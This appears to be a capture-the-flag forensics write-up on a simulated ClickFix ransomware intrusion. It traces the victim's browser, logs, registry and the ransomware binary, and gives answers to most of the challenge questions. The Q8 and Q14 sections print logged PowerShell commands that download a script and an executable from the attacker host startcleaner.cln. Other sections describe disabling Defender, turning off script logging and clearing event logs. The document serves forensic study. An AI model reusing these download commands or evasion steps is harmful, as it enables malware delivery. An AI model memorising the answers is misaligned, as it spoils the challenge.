## Executive Summary

The incident began when the victim visited a ClickFix web page and was tricked into opening Command Prompt and running a command prepared by the browser. That command downloaded another script, disabled Windows Defender Real-Time Protection, turned off Script Block Logging as a defense-evasion technique, and cleared the event logs.

The script then downloaded and executed a ransomware payload. After the ransomware was executed, the malware dropped another binary that acted as a C2 payload and established persistence through the Windows Startup.

## Question #1

> What is the application that the victim was using to browse the web?
>
> Format: string

You could check `Program Files` or `Program Files (x86)` that there is no browser except Edge. Also, for justification, you can check the Edge History and there is the search history of the victim.



## Question #2

> What is the victim's search right before the incident happened?
>
> Format: string

You could load the Edge history at `%AppData%\Local\Microsoft\Edge\User Data\Default\History`, and you can either use SQLite3 or any other suitable tool.



## Question #3

> What is the malicious domain that the victim visited right before the incident happened?
>
> Format: domain.com

So, the main incident is from `http://cleanupyourdisk.free/`, which presents itself as ClickFix to deliver the malware.



## Question #4

> When did the victim last visit the malicious domain?
>
> Format: YYYY-MM-DD HH:MM:SS UTC

Save the URL ID of that malicious domain, which is `35`, then go to the `visits` table and look for URL `35`. You will get the `visit_time` in browser format, `13434912227837741`, then convert it into the requested format.



## Question #5

> How many seconds did the victim spend on the malicious domain?
>
> Format: seconds (integer)

Still in the same table, but now move to the `visit_duration` field.



## Question #6

> The victim was convinced to execute a malicious command. What is the full command?
>
> Format: full command (string)

Actually, ClickFix is a website that tells you to open a command prompt, then paste what the browser copied automatically to your terminal without the user knowing. Since it happens from a web browser, I thought about carving it from the Edge Web Cache. You could export `%AppData%\Local\Microsoft\Edge\User Data\Default\Cache`, then load it with [ChromeCacheView](https://www.nirsoft.net/utils/chromecacheview.zip). Filter it with the malicious domain, and you will get the web source. Here, what is interesting is `app.js`; when you read it, the command is hardcoded there.





BUT, when I submitted it to the remote, it was wrong, so I dove into other artifacts related to opening the command. The EVTX entries were wrong, and `ConsoleHost_History` was wrong, so the last thing I decided to analyze was `NTUSER.DAT`. This was my last resort because I did not want to analyze it first since it contains many entries. I found the command in the `RunMRU` key, which is reasonable because this key loads the last 26 commands that ran in Windows. THE SHITTY PART IS THAT IT ONLY DIFFERS BY A SPACE FROM THE ONE IN `app.js` (FFFFFAAAAAAAAAAAHHHHHHHHHHHHHHH).



## Question #7

> What is the antivirus detection name of the first malicious command execution?
>
> Format: string

Because there is no external antivirus software installed, it can be concluded that the antivirus here is Windows Defender. We can check the event log of Windows Defender in the `winevt` directory, named `Microsoft-Windows-Windows Defender%4Operational.evtx`. I loaded it with [EVTX Parser](https://www.evtxparser.com/en), then you can submit the ClickFix detection.



## Question #8

> The initial payload downloaded a dropper file into the victim's machine. What is the filename of that dropper file?
>
> Format: file.ext

Because my forensic workflow always checks script logging first, I found some suspicious scripts that behave like downloaders in `Windows PowerShell.evtx`. The first script is:

```powershell
Registry,Started, ProviderName=Registry NewProviderState=Started SequenceNumber=1 HostName=ConsoleHost HostVersion=5.1.22621.169 HostId=2af70d6d-e2f6-49a9-a213-b5cd1c4e1619 HostApplication=powershell -c Invoke-WebRequest -Uri 'http://startcleaner.cln/_264c5a42.ps1' -OutFile 'C:\Users\joe\AppData\Local\Temp\_264c5a42.ps1' EngineVersion= RunspaceId= PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=
```

That downloads `_264c5a42.ps1` and saves it to `C:\Users\joe\AppData\Local\Temp\_264c5a42.ps1`. So, we can conclude that the dropper file is `_264c5a42.ps1`.

## Question #9

> On the first malicious script, the script tried to disable the antivirus service. What is the service name that the script tried to disable?
>
> Format: Service Name

Because I found that Real-Time Protection was deactivated in `Microsoft-Windows-Windows Defender%4Operational.evtx`, I thought that was the service name. But it turns out the answer is the software itself, which is Windows Defender.



## Question #10

> The script also tried to disable the antivirus real-time protection. When was it recorded as being turned off during the incident?
>
> Format: YYYY-MM-DD HH:MM:SS UTC

This shitty question got me stuck for a long time until the competition ended. But I found it after working hard and checking every key in `SOFTWARE` one by one. At first, I found the modification time in the key `HKLM/Software/Microsoft/Windows Defender/Real-Time Protection`, but it was still wrong.



Then I reported it to the problem setter, who said I was close. I checked every Windows Defender key one by one and found the `LastRtpTurnedOffTime` value. After searching, I found information that this value is used to record the last time Real-Time Protection was disabled. The value is in Windows FILETIME format, so we had to convert it first, and the result was Saturday, September 26, 2026, 16:09:04.64 UTC.



## Question #11

> What are the two registry paths that the attacker added to perform the evasion technique?
>
> Format: HKCU:/path1/path2, HKCU:/path3/path4

Actually, this was kind of a lucky thing for me because the traces were not found in the event log, but I found some registry changes in `ConsoleHistory`, and it turned out to be right even though it was the opposite of evasion. But hear me out: `ConsoleHistory` logged that `ScriptBlockLogging` was turned on, which meant that this had previously been turned off, hehe. For justification, you can also check the registry to see that the key value was turned off.





## Question #12

> What is the MITRE ID sub-technique of the evasion sub-technique?
>
> Format: Sub-Technique ID

Search for it, but it accepted the previous version of MITRE ATT&CK.



## Question #13

> The first script also tried to clear the event log on the victim's machine. When did it perform the action?
>
> Format: YYYY-MM-DD HH:MM:SS UTC

The log for clearing the event log can be seen in `System.evtx`. Search for the keyword `clear`, and we get the first cleared event log timestamp at `2026-09-26 16:12:02 UTC`.



## Question #14

> The script also downloaded a binary dropper. What is the remote URL that the script downloaded the binary dropper from?
>
> Format: URL

Again, we can see it in `Windows PowerShell.evtx`. There is a script that downloads `http://startcleaner.cln/_6b4acd9e.exe`.



```powershell
Stopped,Available, NewEngineState=Stopped PreviousEngineState=Available SequenceNumber=25 HostName=ConsoleHost HostVersion=5.1.22621.169 HostId=1e617df1-7dec-4338-8018-64c5976b1fef HostApplication=powershell -c Invoke-WebRequest -Uri 'http://startcleaner.cln/_6b4acd9e.exe' -OutFile 'C:\Users\joe\Downloads\KeepClean.exe' EngineVersion=5.1.22621.169 RunspaceId=601af287-00e8-41a6-bc29-4998ad166baa PipelineId= CommandName= CommandType= ScriptName= CommandPath= CommandLine=
```

## Question #15

> Where was the binary dropper dropped on the victim's machine?
>
> Format: X:\path\to\file.exe

From the previous script, we also got its path, which is `C:\Users\joe\Downloads\KeepClean.exe`.

## Question #16

> When was the first dropper binary first executed on the victim's machine?
>
> Format: YYYY-MM-DD HH:MM:SS UTC

Okay, to know when a program was executed, if you use Autopsy, you can check the Run Programs output for `KeepClean.exe`. If you do not use Autopsy, you can export the Prefetch file of `KeepClean.exe` and load it into [Prefetch Parser](https://www.prefetchparser.com/en). From the parser output, we can know when the program was last run, and it was `2026-09-26 16:14:45 UTC`.



## Question #17

> On that first dropper binary, find out how long it ran before it was closed. Answer in milliseconds.
>
> Format: integer

Okay, this one was kind of new for me, so thanks to the problem setter. I honestly asked AI where to find it, and it turns out that we can check the `NTUSER.DAT` key `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist`. The interesting one is `{CEBFF5CD-ACE2-4F4F-9178-9926F41749EA}`, which has many entries inside `Count`. The thing is that the names of these values are encoded with ROT13, so we can encode the dropper first, then check which entry is the same as that.



To parse it and find the exact matching value in the required format, I used [UserAssist Parser](https://github.com/Awad93/Userassist_parser), and we got `141891`.



## Question #18

> What is the attacker's email address that the first dropper mentioned in the dropped ransom note?
>
> Format: email@example.com

Look in the user directory, then read `READMETOCLEAN.md`, and we get the attacker's email.

## Question #19

> List all of the file extensions targeted by the first dropper binary. Answer in comma-separated values, in ascending order of the extensions.
>
> Format: .ext1,.ext2,.ext3

This came from reversing `KeepClean.exe`. I am still not very skilled in reverse engineering, but I think you can do it yourself by copying and pasting the binary's compiled code. Here, we got the extensions `.jpg,.log,.md,.pdf,.png,.rar,.tmp,.txt,.zip,session`.

## Question #20

> Can you help the victim recover the important file? Provide the SHA-256 hash of `C:\Users\joe\Documents\Job\Ansible-Desc.md`.
>
> Format: SHA256 hash

This came from reversing the binary too. The key is the 16-character value at `HKCU\Software\Microsoft\Windows\CurrentVersion\Apps\D15kCl34nUp`; the IV is from `READMETOCLEAN.md`, which has the suffix `ENC-CLN-VER-<IV>`; the padding is PKCS#7; and the algorithm is AES-128-CBC.



